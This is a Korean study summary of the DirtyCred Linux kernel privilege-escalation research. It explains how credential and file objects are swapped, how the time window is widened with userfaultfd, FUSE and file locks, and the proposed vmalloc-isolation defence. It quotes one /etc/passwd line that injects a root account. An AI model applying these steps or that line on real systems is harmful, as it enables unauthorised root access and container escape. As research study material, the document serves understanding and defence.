

# DirtyCred: Escalating Privilege in Linux Kernel

### 1. Abstract

리눅스 커널 취약점인 DirtyPipe는 리눅스 5.8버전부터 대부분 버전에 존재한다. 이 취약점을 악용하면 공격자가 LPE가 가능하다.  방어는 쉽다. 

DirtyCred는 DirtyPipe 수준의 위협을 **다른 일반적인 커널 취약점들에도 적용 가능하게 만들어**, 더 광범위한 공격을 가능하다.

해당 기술은 낮은 권한의 자격 정보와 높은 권한의 자격 정보를 메모리 상에서 교체하여 일반 취약점도 DirtyPipe처럼 공격가능. 이를 통해 루트 권한을 얻거나 컨테이너를 탈출할 수 있음. 

### 2. Introduction

리눅스는 모바일, 클라우드 인프라, 웹서버등 다양한 분야에서 널리 쓰인다.이를 방어하기 위해 KASLR, CFI와 같은 여러보안 기술을 적용했고, 그 결과 커널 취약점을 이용한공격은 점점더 어려워졌다. 

그런데 최근 발견된  **CVE-2022-0847**이라는 취약점은 이런 보안 장치를 뚫고도 **루트 권한 상승이 가능**했던 사례로 주목받았다. 이 취약점은 DirtyPipe라는 이름으로 알려졌으며 **기존의 보안기능을 무력화하지 않고도 루트 권한을 얻을 수 있어** 큰 위험이 되었다. 

DirtyPipe 공격은 리눅스 파이프(pipe) 기능을 이용해 임의의 파일에 데이터를 삽입할 수 있는능력이 존재하기 때문에, 비슷한 수준의 다른 취약점은 흔하지 않다. 그래서 리눅스 커뮤니티와 기업들은 빠르게 패치를 배포하여 해당 취약점을 막는 방식으로 대응했다.

이 논문에서는 DirtyCred라는 새로운 공격 기법을 제안한다. 메모리 오류 취약점을 이용해 **일반 사용자 자격 정보와 루트 권한 자격 정보를 메모리에서 서로 swap하면서 리눅스 커널이 이용자를 루트처럼 착각**하게 한다. 이를 통해 보호된 파일이나 프로세스에 접근가능하다. 

DirtyCred가 성공하기 위한 3가지 필요조건

1. 다양한 취약점의 특성을 권한 객체 교체에 적합하게 pivot
2. 커널이 객체교체를 허용하는 time window 제어
3. 일반 사용자가 루트 권한 객체를 능동적으로 생성할 수 있는 방법 필요 

이 논문에서는 위 문제를 다음과 같이 해결한다.

1. 다양한 힙 기반 취약점을 궈한 객체를 잘못 free하는 방식으로 
2. userfaultfd, FUSE, 파일 시스템의 lock을 이용해 객체 교체를 위한 time window 늘림
3. 사용자 공간과 커널 공간에서 루트 권한 객체를 능동적으로 생성할 수 있는 다양한 기법 적용 

실제로 **24개의 리눅스 커널 취약점에 적용**한 결과, 그 중 **16개에서 성공적으로 루트 권한 상승 및 컨테이너 탈출**이 가능.

이를 막는 새로운 리눅스 커널 방어 깁버도 제안. 핵심 아이디어는 높은 권한과 낮은 권한 객체를 메모리 상에서 완전히 분리하여 저장한다. 이를 위해 루트 권한 객체는 vmalloc 영역, 나머지는 일반 영역에 저장하는 방식으로 방어 시스템 구현, 성능 테스트 결과 성능 저하가 거의없거나 매우 적은 수준.

DirtyCred는 기존의 공격 기법들과 비교해 다음과 같은 특징이 있다.

1. 어떤 힙 기반 취약점에도 일반적으로 적용 가능
2. 다른 커널 버전이나 아키텍처에도 수정없이 이식이 쉬움
3. CFI, KASLR, SMEP/SMAP, KPTI등 다양한 보안 기법을 회피
4. 단순한 권한 상승을 넘어 안드로이드 루팅, 컨테이너 탈출까지 가능 

논문에서의 기여는 다음과 같다.

1. DirtyCred라는 새로운 일반화된 커널 공격 기법 제안
2. DirtyCred는 24개의 실제 리눅스 커널 취약점에 적용, 그 중 16개에서 공격 성공 입증
3. DirtyCred의 위협에 대응할 수 있는 새로운 커널 방어 매커니즘을 제안하고 낮은 성능의 오버헤드를 실험으로 입증 

### 3. Background

### 3.1 리눅스의 커널 자격 정보

리눅스 커널에서는 사용자의 권한 정보(자격 정보)를 저장하는 객체들이 있다. 이를 통해 커널은 사용자가 특정 자원에 접근할 수 있는지 판단한다. 

리눅스에서 자격정보는 다음과 같은 커널 객체로 구현된다.

- **cred**
    - 모든 프로세스(task)는 하나의 cred 객체를 참조
    - cred 객체는 UID(사용자 ID) 필드가 있어 권한 수준을 나타낸다
        - ex) `GLOBAL_ROOT_UID`는 루트 권한을 의미
    - capability 정보도 포함됨
        - ex) `CAP_NET_BIND_SERVICE`는 네트워크 포트에 바인딩할 수 있는 권한
    - 자격 정보는 copy and reploace 원칙에 따라 수정됨. (자신의 자격 정보만 수정 가능)
- **file**
    - 소유자의 UID, GID, 읽기/쓰기 권한, capability 정보를 갖는다
    - 실행 파일은 SUID/SGID 플래그를 가질 수 있느데, 이는 다른 사용자가 실행될 때 소유자의 권한으로 실행 허용
    - 파일은 inode 객체를 통해 cred 객체와 연결되며, 파일을 열면 cred는 file객체로 연결
    - file 객체는 읽기/쓰기 권한을 갖고 있어 커널이 이 권한을 검사함
- **inode**

이 논문에서는 주로 cred 객체와 file 객체를 사용하며, inode 객체는 제외된다. 그 이유는 inode는 새로운 파일이 생성될 때만 할당되기 때문에, 메모리를 조작하기에 충분한 유연성은 없다.

### 3.2 커널 힙 메모리 관리

작은 메모리 할당을 효율적으로 처리하기 위해 allocator 사용, 커널에는 여러 종류의 메모리 캐시가 있으며, 이들은 모두 같은 설계 방식을 따름 

- 메모리 캐시 구조
    - 커널은 메모리 페이즈를 할당하고, 이를 같은 크기의 조각(slots)으로 나눔
    - 이 슬롯들은 커널 객체를 저장하는 데 사용됨
    - 캐시가 다 차면 새로운 페이지를 할당하고, 더 이상 사용되지 않으면 페이지를 회수
- 캐시 종류
    - Generic Caches (일반 캐시)
        - 다양한 크기의 객체를 저장하는 데 사용
        - 요청된 크기에 맞는 캐시에서 슬롯 할당
        - 다른 객체와 메모리 공간 공유
    - Dedicated Caches (전용 캐시)
        - 자주 사용되는 객체를위한 전용 공간
        - 성능 향상과 보안 목적
        - **일반 캐시와 메모리 공유를 하지 않음** ⇒ 보안상 이유

### 3.3 위협 모델



1. 공격자는 루트 권한이 없는 일반 사용자이며, 시스템에 로컬 접근이 가능 
    - 즉, 일반 사용자 권한으로 로그인한 상태에서 공격
2. 공격자는 리눅스 커널 내의 heap corruption 취약점 이용 
3. 시스템은 최신 커널 보호 기법을 모두 적용 
    - KASLR(커널 주소 랜덤화), SMEP/SMAP(커널의 사용자 메모리 접근 제한), CFI(제어 흐름 무결성), KPTI(커널과 사용자 페이지 분리)
4. HW 사이트 채널 공격 (Spectre, Meltdown은 사용하지 않음)

### 4-1. TECHNICAL OVERVIEW

DirtyCred가 어떻게 작동하는지를 실제 예시를 통해 간단하게 설명한다. 

리눅스 커널 취약점 CVE-2021-4154를 사용하여 DirtyCred가 어떻게 작동하는지를 보여준다.

이 취약점은 `fs_context`라는 객체의 `source` 필드가 **잘못된 방식으로 file 객체를 참조하게 되는 타입 혼동(type confusion)** 문제로 발생한다. 시나리오는 다음과 같다.

1. 공격자는 /tmp/x 라는 파일을 write모드로 엶
    - 커널은 /tmp/x 파일에 file 객체를 할당
2. 공격자는 취약점을 이용해 커널이 해당 file 객체를 free하게 만듦
    - 아직 사용중인 객체에도 해제되면서 메모리가 비어있게 됨
3. 공격자는 읽기 전용 파일인 /etc/passwd를 엶
    - 커널은 새로운 file 객체를 할당하는데 앞에서 해제된 메모리 공간을 다시 사용하게 됨
4. 공격자는 /tmp/x 에 데이터를 씀
    - 그런데 이때 이미 file 객체가 /etc/passwd로 바뀌어 있으므로, 읽기 전용인 /etc/passwd 파일에 데이터를 쓸 수 있게 됨
    - 예를 들어 공격자가 `/etc/passwd`에 아래와 같은 내용을 쓰면
        
        ```jsx
        hacker:x:0:0:root:/:/bin/sh
        ```
        
        이 계정은 루트 권한을 가진 새로운 사용자가 됨
        
    - **메모리의 file 객체를 swap을 통해 읽기 전용 파일을 쓰기 가능하도록 바꿈**

### 4-2. Technical CHALLENGES

DirtyCred는 낮은 권한을 자니 객체를  잘못된 방식으로 해제(invalid-free)하고 그 자리에 높은 권한을 가진 객체(file)를 다시 할당한다.  실제로, 모든 커널 취약점이 이런 능력을 제공하는 것이 아니다. 예를 들어 어떤 취약점은 OOB Write만 제공할 뿐 직접 free 능력은 없다. 따라서, DirtyCred는 다양한 종류의 커널 취약점에 대해 능력에 맞게 변환하는 pivoting을 진행한다.  ⇒ 5장
(여기서 말하는 pivoting이란 dangling pointer를 의미 있는 구조체의 포인터로 전환)


위 그림은 각각 오버플로우 전 메모리 구조와 오버플로우 후 피해 객제 cred가 해제될 수 있도록 만든 구조다. 

DirtyCred는 파일 객체 교체를 수행하기 전에 커널의 접근 권한 검사가 끝나고 파일 쓰기가 실제로 이루어지기 전에 잠시 대기를 해야한다. 리눅스 커널에서는 접근 권한 검사와 write는 서로 빠르게 연속적으로 진행되기 때문에 time window를 원하는 시점에 정확히 해야한다. ⇒ 6장

또 DirtyCred는 낮은권한 객체를 높은 권한 객체로 교체해야하는데, 이를 위해 DirtyCred는 해제된 메모리 공간에 루트 권한을 갖는 객체를 다시 할당해야한다.  하지만, 일반 사용자가 커널에서 루트권한 cred 객체를 생성하는 것은 매우 어렵다.  단순히 기다린다고 해도 수동적이기 때문에 문제가 많으며 원하는 메모리 공간이 언제 재사용되는지 알 수도 없으며 어떤 객체가 그 공간을 차지할지 통제할 수 없다. 이를 해결하기 위해 DirtyCred는 2가지 접근을 사용한다. 사용자공간에서 매커니즘과 커널 공간에서 스킴을 통해 일반 사용자도 루트 권한 객체를 능동적으로 생성할 수 있도록 한다. ⇒ 7장 

### 5. PIVOTING VULNERABILITY CAPABILITY

문제 인식 : DirtyCred가 정상 작동하려면, 취약점이 커널 자격 정보를 해제할 수 있어야한다. 하지만 현실의 대부분 커널 취약점은 그런 기능을 직접 제공하지 않는다. 

해결책 : victim object를 어떤 방식으로든 해제할 수 있게끔 pivoting한다. 

핵심아이디어 : 커널의 어떤 구조체(객체) 안에는 내부에 포인터가 포함되어 있다. 만약 공격자가 그 포인터를 cred 객체를 가리키도록 바꾼 뒤 해당 구조체를 해제하면 cred 객체가 같이 해제된다. 

[활용]

`fs_context`라는 구조체 안에 있는 포인터(`fc->source`)에 타입 혼동(type confusion)이 일어난다.

이 포인터는 char를 가르켜야하지만 공격자가 file 객체를 가리키도록 바꿀 수 있다.

1. 공격자는 `fs_context` 구조체의 `source` 필드를 조작해 **쓰기 가능한 file 객체**를 포인터로 연결한다.
2. 그 후, `fs_context`가 해제되면 내부 포인터(`source`)가 가리키는 **file 객체도 같이 해제된**다.
3. 이로써 공격자는 **사용 중인 file 객체를 커널에서 강제로 해제**할 수 있다.
    
    → 이후 이 메모리 공간에 **루트 권한 file 객체를 덮어쓸 수 있게 된다.**
    

이 방식은 기존 커널보호 모듈(KASLR, CFI, SMAP 등)은 대부분 코드 실행을 막는데 초점이 맞춰져있지만, DirtyCred는 코드를 실행하지 않고 단순히 메모리 상에서 객체를 swap하는 방식이기 때문에 우회할 수 있다.

 


### 6. EXTENDING TIME WINDOW

리눅스 커널은 파일 쓰기 작업을 실행하기 전에 반드시 권한을 확인한다. DirtyCred 공격은 권한 검사와 실제 파일 쓰기 사이에 file 객체를 swap해야한다. 

하지만 거의 동시에 일어나기 때문에 time window가 너무 짧아 공격을 수행하기 어렵다. 

따라서 DirtyCred는 커널의 실행을 멈추고 timewindow를 늘릴 수 있는 기술들을 사용한다. 

`userfaultfd`는 사용자 공간(user space)에서 페이지 폴트를 처리할 수 있도록 해주는 기능이다. 특정 메모리 영역은 `userfaultfd` 에 등록하면, 커널이 그 영역에 접근할 때 페이지 폴트가 발생하고, 이때 등록한 사용자 핸들러가 실행되어 해당 문제를 처리할 수 있게 된다. 

공격자가 일부 메모리를  `userfaultfd`에 등록한 뒤 커널이 그 메모리에 접근하면 의도적으로 커널 실행을 멈출 수 있다. 

`FUSE`는 사용자 공간에서 파일 시스템을 구현할 수 있게 해주는 커널 기능이다. 사용자는 FUSE를 통해 가상의 파일 시스템을 만들고 해당 파일 시스템에서 발생하는 파일 접근 요청에 대한 응답 방식을 직접 정의할 수 있다. 공격자는 FUSE를 활용해 커널이 특정 파일에 접근할 때 해당 요청을 사용자 핸들러로 유도하여 커널을 일시 정지시킬 수 있다. 

`userfaultfd`와 `FUSE` 모두 커널의 실행 흐름을 사용자 공간에서 잠시 멈추게 할 수 있는 기술이고, DirtyCred는 이 두 가지 모두 사용해, 권한 검사가 끝난 직후 커널을 멈추고 그 사이에 file 객체를 루트 권한 객체로 swap한다. 


- `vfs_writev`는 **리눅스 커널에서 vectored I/O 방식으로 파일을 쓰는 함수**
- 커널은 먼저 권한 검사를 수행한다. 검사 후에 import_iovec를 통해 사용자 데이터를 커널로 가져온다.
- 이 iovec 구조체는 데이터의 주소와 크기 정보를 포함하고 있으며 해당 데이터를 기반으로 실제 파일 쓰기가 이루어진다.

[writev + userfaultfd]

- writev 시스템 호출을 사용하는데 이는 write보다 복잡한 IO 구조(iovec)를 사용한다.
- iovec에 포함된 주소를 userfaultfd로 등록해두면 커널이 데이터를 복사하기 위해 해당 주소에 접근할 때 페이지 폴트가 발생하고, 그 순간 커널이 멈춘다. 이 멈춘 순간에 공격자는 heap을 조작하여 file 객체를 교체한다.

하지만, 리눅스 커널 4.13이후에는 `iwritev` 함수 구현 방식이 변경되었다. DirtyCred는 `userfaultfd`를 이용하여 여전히 iovec import 지점에서 커널 실행을 멈출 수 있지만, 원한 확인 이후 멈추는 것이 불가능해졌다. 대응은 아래와 같다. 

리눅스 파일 시스템 설계는 계층적인 구조를 따른다. 

상위 인터페이스 :  모든 파일 시스템에서 공통적으로 사용하는 파일 쓰기 인터페이스 

하위 페이스 : 각 파일 시스템(ext4, btrfs)에서 개별적으로 구현된 세부 함수 

파일에 쓰기를 수행할 때, 커널은 먼저 상위 인터페이스를 호출한다. ex) `generic_perform_write()` 


`iov_iter_fault_in_readable()` 함수는 커널이 iovec에 포함된 사용자 데이터를 미리 접근하면서 페이지 폴트를 유도한다. DirtyCred는 이 지점을 `userfaultfd` 로 중단시켜 커널 실행을 멈추고, 실제 쓰기 직전에 시간 창 확보가 가능하다.  ****


페이지 폴트를 제거하면 심각한 데드락 문제가 발생할 수 있는데, 페이지 폴트를 권한 검사 이전으로 이동시키는 방식도, DirtyCred가 페이지를 삭제하고 페이지 폴트를 다시 유도함으로써 방어를 무력화할 수 있다. 

[파일 시스템의 Lock악용]

리눅스 파일 시스템은 여러 프로세스가 동시에 파일에 쓰지 못하게 lock을 건다. ex) ext4는 `inode_lock()`을 사용해 락을 건다. 

[DirtyCred의 이용] ⇒ 두 프로세스 간 락 충돌을 이용해, 권한 검사 후 커널 대기 시간 확보 

- **프로세스 A**와 **프로세스 B**를 동시에 실행
- 두 프로세스 모두 **같은 파일에 쓰기를 시도**
- 프로세스 A가 먼저 락을 잡고, **대량의 데이터를 씀**
- 프로세스 B는 락을 기다리며 **쓰기 작업을 대기함**
- 하지만 B는 이미 **파일 권한 검사를 통과한 상태**임
- 락 대기 시간 동안 DirtyCred는 충분한 시간 확보 → **file 객체 교체 완료 가능**

프로세스 B는 **이미 파일 권한 확인을 완료한 상태**다. 따라서 **락을 기다리는 시간 동안 DirtyCred는 충분한 시간**을 확보하여 **file 객체 교체를 안정적으로 완료한다.**

HDD에 4GB 파일을 쓰는 경우, 락 대기 시간이 **수 초~수십 초**에 이룬다. 이 시간동안 취약점이 트리거 및 메모리 조작을 충분히 수행할 수 있다. 

### 7. ALLOCATING PRIVILEGED OBJECT

고 권한 사용자의 활동이 우연히 발생하기를 기다리ㅏㄹ 수 없다. 그러한 활동이 해제된 메모리 위치를 고권한 객체가 차지하게 만들어 권한 상승이 이루어지기를 기대할 수 없다. 따라서 DirtyCred는 커널 공간에서 고권한 객체 할당을 능동적으로 유도하기 위한 행동을 취해야한다. 

[Allocation from Userspace]

cred객체는 해당 커널 테스크의 권한 수준을 나타낸다. 루트 사용자는 최고 권한을 의미하는 고권한 cred 객체를 갖고 있다. 따라서 DirtyCred가 루트 사용자의 활동을 능동적으로 유발할 수 있다면, 커널은 그에 따라 고권한 cred 객체를 할당하게 된다. 

리눅스에서 어떤 바이너리가 SUID 권한을 갖고 있다면 누가 실행하든 상관없이 그 바이너리가 소유자 권한으로 실행된다.  이 특성을 이용하면, 낮은권한 사용자가 SUID가 설정된 루트 소유 바이너리를 실행함으로써 루트프로세스를 생성할 수 있다.  

과거에는 공격자들이 고권한 바이너리에 존재하는 취약점을 익스플로잇하는 방식으로 권한 상승을 달성했다면 본 연구 DIrtyCred에서는 고권한 바이너리 내부의 취약점에 의존하지 않는다. 

대신, SUID 특성을 악용해서 루트 소유의 SUID 설정 바이너리를 실행하게 만들고, 그 결과 고권한 cred 객체가 커널 힙에서 해제된 메모리 위치를 차지하도록 유도한다. 

리눅스에는 이러한 특성을 만족하는 바이너리가 다수 존재하며, 그 예로는 다음과 같은 실행파일들이 있다.

su, ping, sudo, mount, pkesec

DirtyCred는 cred 객체뿐만 아니라 파일 객체도 교체하여 권한 상승을 수행할 수 있다. cred 객체들과 달리, 파일 객체의 할당은 비교적 쉽다. 

[Allocation from Kernelspace]

사용자 공간에서 고권한 객체를 할당하는 방식이 있다. 리눅스 커널이 새로운 커널 스레드를 시작할 때, 현재 실행 중인 프로세스를 복제한다. 이 프로세스 복제와 함께, 커널은 복사된 cred 객체를 커널 힙에 할당한다. 

리눅스 커널에서 대부분의 커널 스레드는 고권한 cred 객체를 갖고 있따. 따라서 복사된 cred 객체 역시 고 권한을 갖게 된다. 이처럼 고권한 커널 스레드를 생성할 수 있는 능력을 이용하면, DirtyCred는 고권한 cred 객체를 능동적으로 할당할 수 있다. 

고권한 자격 객체를 할당하는 주요 방법은 2가지가 있다.

- 첫 번째 방법
    1. 커널 코드 경로와 상호작용하며, 커널이 내부적으로 고권한 스레드를 생성할 수 있도록 유도 
        
        ex) 커널 워크큐를 위한 워커를 생성
        
    2. 리눅스 커널에서 워크큐는 지연 실행을 처리하기 위해 설계된 메커니즘이다. 워크큐는 여러 개의 워크 풀(work pool)을 가지며, 각 워크 풀은 여러 개의 워커를 포함한다. 
    3. 초기 상태에서는 커널이 각 워크 폴당 하나의 워커만 생성한다. 그러나 더 많은 작업이 워크큐에 제출되면, 커널은 워커를 동적으로 생성한다. 
    4. 각 워커는 하나의 스레드다. 따라서 워크큐에 제출되는 작업의 양을 조절하면서 커널 스레드 생성 활동을 제어할 수 있다. 
- 두 번쨰 방법
    1. usermode helper를 호출한다. 
    2. 커널이 사용자 모드 프로세스를 생성할 수 있도록 해주는 매커니즘이다. 이 매커니즘의 가장 대표적인 예는 커널 모듈을 커널 공간에 로드하는 작업이다. 
    3. 커널 모듈을 로드할 때, 커널은 usermode-helper API를 호출하며, 이 API는 사용자 공간 프로그램인  modprobe를 고권한 모드로 실행하게 된다. 이 과정에서 커널 내부에 고권한 cred 객체가 생성한다. 
    4. modprob의 기능 중 일부는 표준 모듈 디렉터리를 검색하여 필요한 드라이버를 찾는 것이다. 이 과정 동안 커널은 계속 실행되어야 한다. 따라서 modprobe가 커널 실행을 막지 않도록 하기 위해 커널은 usermode-helper API를 호출할 때 새로운 커널 스레드를 함께 생성한다. 

### 8. Experiment

DirtyCred는 익스플로잇 가능한 객체들을 활용하여 메모리 조작을 수행한다.

이 조작은 OOB access, UAF와 같은 취약점에서 중요하다. 이런 메모리 조작은 DirtyCred가 권한 상승을 달성하기 위해 반드시 거쳐야 하는 핵심 단계 중 하나다. DirtyCred는 메모리 조작을 수행할 때, 취약점이 존재하는 cache에 익스플로잇 가능한 객체를 할당한다. DirtyCred의 성공 여부는 해당 캐시에 적절히 들어맞는 익스플로잇 가능한 객체를 성공적으로 식별할 수 있느냐에 크게 의존한다. 

하지만 리눅스 커널 코드 영역은 매우 크고 복잡하기 때문에 이러한 수동적인 코드 분석은 사실상 실용적이지 않다. 따라서 **익스플로잇 가능한 객체와 그 객체 할당을 유도할 수 있는 입력값을 자동으로 추적할 수 있는 자동화된 방법 도임**.

자격 증명 객체(credential object)를 포함해서, 해당 객체를 커널 힙에 할당할 수 있는 입력을 도출할 수 있을 때만 해당 객체를 익스플로잇 가능한 객체로 간주한다. 

DrityCred에서 자격 증명 객체를 직접 교체할 수 있는 능력을 제공하지 앟는 경우 Pivoting으로 우회한다. 물론 익스플로잇 가능한 객체 내부의 중요한 데이터를 overwrite해야할 수도 있다. 

2019년 이후에 보고된 리눅스 커널 CVE를 대상으로 진행했으며 기준은 다음과 같다.

1. 커널 힙 상의 데이터를 손상시키지 않는 취약점들은 제외
2. 실제로 커널 패닉을 재현할 수 없는 취약점들도 제외
3. 특정 하드웨어 설치가 필요한 취약점들도 제외 

이런 기준으로 총 24개의 CVE 목록을 확보했다. 


[그림2]

[그림1]

- 리눅스 커널에서 식별된 익스가능한 객체들별표(★)는 file “cred”에 연결된 객체를 의미
- 십자(†) "cred" 객체와 연관된 객체
- Memory Cache : 
해당 커널 객체가 저장되는 캐시 영역
- Structure : 
익스플로잇이 가능한 객체의 구조체 타입
- Offset : 
해당 객체 내에서 자격 증명 객체의 참조가
위치한 오프셋

[그림1]

kmalloc -8 캐시는 리눅스 커널에서 거의 사용되지 않기 떄문에 제외되었다. 메모리 캐시에서는 DirtyCred의 권한 상승에 활용될 수 있는 익스플로잇 가능한 객체들이 1개 이상 존재한다. 

각 익스플로잇 가능한 객체 내에는, 자격 증명 객체를 참조하는 필드의 오프셋 또한 포함되어 있다. DirtyCred가 특정 취약점의 capability에 맞는 적절한 객체를 선택하여 익스플로잇을 성공시킬 가능성을 높여준다.

총 5개의 객체가 5개의 일반 캐시에서 발견되었으며, 이들 객체는 객체 시작 부분에 cred 객체가 참조가 포함되어 있음이 확인되었다. 이는 공격자가 피해 객체의 시작 부분 2바이트 정도만 덮어쓸 수 있는 매우 제한적인 메모리 손상 능력만 있어도, DirtyCred 공격을 성공시킬 수 있다는 의미다.

cred 객체는 container escape에 더 효과적이라는 점에서 중요하다. cred 객체를 포함하는 익스플로잇 객체가 많다는 것은 Docker 탈출과 같은 시나리오에서 DirtyCred가 효과적임을 보여준다. 

[그림2]

DirtyCred가 실제 커널 취약점들에 대해 익스플로잇을 보여준다. 총 24개의 취약점 중 16개에서 커널의 보안 방어 기술을 우회하고 권한 상승을 성공적으로 수행할 수 있었다 이때 당시 모든 커널 보호기법이 활성화된 상태다. 16개의 성공 사례 중 8개는 OOB또는 UAF 취약점이었고, 나머지는 double free였다. 

DirtyCred는 모든 더블 프리 취약점에 대해 익스플로잇에 성공했는데, 그 이유는 더블 프리 상황에는 항상 자격 증명 객체를 잘못 해제하도록 pivoting할 수 있기 때문이다. 

실패한 사례들의 분석은 다음과 같다. OOB같은 경우 virtual memory area에서 메모리 손상이 일어났다. DirtyCred를 사용하려면 cred를 갖고 있는 커널 객체들이 필요하다. 그런 객체들은 일반적으로 kmalloc 기반 커널 힙 메모리에 할당되며, 가상 메모리에는 존재하지 않는다. 따라서 DirtyCred는 이 경우에 필요한 객체를 찾지 못하고 익스플로잇에 실패하게 된다. 

하지만 이러한 실패는 DirtyCred가 가상 메모리 상의 취약점을 절대 익스플로잇할 수 없다는 뜻이 아니다. 가상 메모리에서 메모리 손상 능력도 적절한 객체나 우회기술(capability pivoting)이 있으면 DirtyCred로 활용될 수 있다. 

### 9. Defense

DirtyCred의 익스플로잇은 리눅스 시스템에 심각한 위협이 된다고 주장할 수  있다. 파일 시스템의 락 메커니즘을 악용하는 방식은 파일 시스템을 재설계함으로써 방어가 가능하지만, DirtyCred는 cred 객체를 swap하는 다른 경로를 통해서 공격이 가능하므로, 이 방법만으로는 DirtyCred를 막을 수 없다. 

따라서 효과적인 방어책은 **서로 다른 권한 수준의 자격증명 객체(credential object) 간의 교체를 방지**하는 것이다. 한편, 사용자 공간 힙에 적용되는 보안 기법들은 DirtyCred 방어에 충분하지 않다. 그 이유는, 커널에서는 메모리의 할당/해제/접근이 매우 빠르게 이루어져야 하기 때문이다. 그렇지 않으면 사용자 프로그램과 전체 시스템의 성능이 느려지게된다. 그래서 kernel memory allocator는 사용자 공간보다 훨씬 단순하다. 이러한 이유 때문에 사용자 공간의 힙 방어 기법들은 커널에 적용할 수 없다. 

CFI (Control Flow Inegrity), SMEP, SMAP, KASLR등 다양한 기법들을 제공하지만, 이들 중 어느 것도 DirtyCred에 효과적이지 않다. 

1. DrityCred는 CFI을 위반하지 않는다. 
2. DirtyCred는 하나의 익스플로잇 객체에만 의존하지 않는다.
    
    ⇒ 다양한 일반 캐시(general cache)에 익스플로잇 가능한 객체가 퍼져있다. 따라서 해당 객체들을 제거하는 방식으로는 사실상 방어가 어렵다. 
    
3. DirtyCred는 credentail 객체의 내용을 변조하지 않는다.
    
    ⇒ 대신 **합법적인 고권한 credential 객체를 legal한 메모리 공간에 배치함**으로써 익스플로잇한다.
    
    ⇒ Samsung Knox의 실시간 커널 보호(RKP)와 같은 credential 무결성 보호 기법도 효과가 낮다
    
4. DirtyCred는 고권한과 저권한 credential 객체 간의 교체를 통ㅊ해 권한 상승을 한다.
    
    ⇒ AUTOSLAB, xMP 같은 커널 객체 분리 기술은 객체의 종류에 따라 메모리를 분리하지만, 객체의 권한 수준은 고려하지 않기 떄문에 DirtyCred로 막을 수 없다. 
    

따라서 DirtyCred에 대한 효과적인 방법으로 고권한 객체와 저권한 객체를 서로 다른 메모리 공간에 저장하도록 분리하는 것을 제안한다. 이렇게 하면, **서로 다른 권한 수준의 객체들이 동일한 메모리 영역을 공유하지 않게 되므로**, DirtyCred가 이러한 객체들을 Overlap하며 익스를 원찬 차단할 수 있다.

캐시가 파괴되면, 리눅스의 buddy allocator가 기저의 메모리 페이지를 재사용하게 된다. DirtyCred는 이 점을 악용하여 캐시가 사라진 이후에도 공격을 시도할 수 있다. 

### Design

고권한 객체를 가상 메모리 영역에 할당하고 저 권한 객체는 일반 메모리 영역에 할당하는 방식을 제안한다. 

가상 메모리 영역은 VMALLOC_START ~ VMALLOC_END 범위의 메모리로, **커널에서 연속된 메모리를 동적으로 할당하**는 데 사용된다. 반면, 일반 객체는 kmalloc을 통해 직접 매핑된 메모리에 위치다. 이러한 구조는 캐시가 파괴되고 메모리 페이지가 재사용되더라도 고권한과 저권한 객체들이 절대로 메모리 공간을 공유하지 못하도록 보장한다. 

## 커널 힙 메모리 관리

리눅스 커널은 **성능을 향상시키고 메모리 단편화를 방지하기 위해** 작은 크기의 메모리 할당을 관리하는 메모리 할당자(memory allocator)를 설계하였다. 리눅스 커널에는 세 가지 서로 다른 메모리 할당자가 존재하지만, 이들은 모두 **동일한 상위 수준(high-level)의 설계 구조**를 따른다. 구체적으로, 이들 할당자는 모두 **동일한 크기의 메모리를 관리하기 위해 캐시(cache)를 사용**한다.

### Generic Caches

리눅스 커널은 서로 다른 크기의 메모리를 할당하기 위해 여러 개의 일반 캐시를 유지한다. 일반 캐시에서 메모리를 할당할 때, 커널은 먼저 요청된 메모리 크기를 round up한 뒤 그 크기에 대응하는 캐시를 찾는다. 리눅스 커널에서 메모리 할당 요청이 어떤 종류의 캐시를 사용할지 명시하지 않은 경우, 기본적으로 일반 캐시에서 할당이 이루어진다. 동일한 일반 캐시에 속하는 할당들은 같은 메모리 페이지에서 관리될 수 있으므로, 서로 같은 메모리 주소 공간을 공유할 가능성이 있다.

### Dedicated Caches

리눅스 커널은 성능 및 보안 목적을 위해 전용 캐시(dedicated cache)를 생성한다. 커널 내부에서 일부 객체들은 매우 빈번하게 사용되는데, 이러한 객체들을 위해 전용 캐시를 할당하면 메모리 할당에 소요되는 시간을 줄일 수 있으며, 그 결과 시스템 성능이 향상된다.

**전용 캐시에 할당되는 메모리는 일반 캐시에서 할당되는 메모리와 동일한 메모리 페이지를 공유하지 않는다.**

그결과, 일반 캐시에 할당된 객체들은 전용 캐시에 할당된 객체들과 물리적으로 인접하지 않게 된다. 이는 cache-level- isolation으로 볼 수 있으며, 일반 캐시 객체로부터 발생할 수 있는 오버플로 공격을 완화한다. 

### Dedicated Cache의 한계와 DirtyCred

Dedciated Cache가 제공하는 것은

- 특정 객체 타입이 자기 전용 kmem_cache에서 할당됨
- generic cache와 같은 slab page를 공유하지 않음

즉, 보장되는 것은 동일 page 내 인접성 부재 뿐이다.

하지만 DirtyCred는 **free된 slot에 의미 있는 다른 객체가 재할당될 수 있는가?** 이 조건만 확인한다.

이 조건만 만족하다면 Dedicated Cache는 막을 수 없다.

### SLUB Allocator


SLUB의 메모리 흐름은 다음과 같다.

1. kmem_cache (논리적 캐시)
2. slab page (물리적 page 묶음)
3. buddy allocator (전역 page allocator)

slab page와 buddy allocator는 완전히 공유된다.

- kmem_cache
    - object_size : 실제 구조체 크기
    - size : redzone, debug, padding등을 포함한 실제 할당 크기
    - offset : freelist 포인터가 객체 내부에 어디에 있는지
    - flags : SLAB_HWCACHE_ALIGN, SLAB_ACCOUNT, SLAB_TYPESAFE_BY_RCU 등
    - cpu_slab
        - cpu별 캐시로 연결되는 포인터
